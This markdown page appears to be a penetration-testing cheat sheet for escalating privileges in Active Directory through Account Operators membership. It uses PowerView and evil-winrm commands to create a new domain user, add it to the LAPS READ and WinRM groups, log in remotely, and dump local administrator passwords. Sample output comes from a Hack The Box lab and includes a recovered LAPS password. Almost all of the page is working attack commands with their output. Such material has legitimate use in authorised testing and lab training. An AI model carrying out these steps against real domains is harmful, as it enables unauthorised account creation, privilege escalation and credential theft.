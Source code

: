```yaml
---
title: "Account Operators"
date: 2025-7-25
tags: ["Active Directory",  "Privilege Escalation",  "Account Operators",  "Credential Dumping",  "LAPS",  "Group Membership Abuse",  "Evil-WinRM",  "PowerView",  "Windows"]
---
```


### Privesc #1: Create a New User Account and Add it to LAPS (Local Administrator Password Solution) Group

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a Cred Object (Runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create a New User Password Object

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> $new_user_password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
```

#### 4. Create a New User Account

```console
New-AdUser '<NEW_USER>' -enabled $true -accountpassword $new_user_password -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> New-AdUser 'alice' -enabled $true -accountpassword $new_user_password -Credential $cred
```

#### 5. Add the New User to LAPS Group

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'LAPS READ' -Members 'alice' -Credential $cred
```

#### 6. Add the New User to WinRM Group

```console
Add-DomainGroupMember -Identity 'WinRM' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity WinRM -Credential $cred -Members 'alice'
```

#### 7. Remote as New User

```console
evil-winrm -i <TARGET> -u '<NEW_USER>' -p '<NEW_USER_PASSWORD>'
```

```console {class="sample-code"}
$ evil-winrm -i 127.0.0.1 -u alice -p 'Test1234'              
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alice\Documents> 
```

#### 8. Read LAPS Password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\alice\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd

DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 82SD67Cuq34TPZm4mnFo
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :
```

{{< /tabcontent >}}
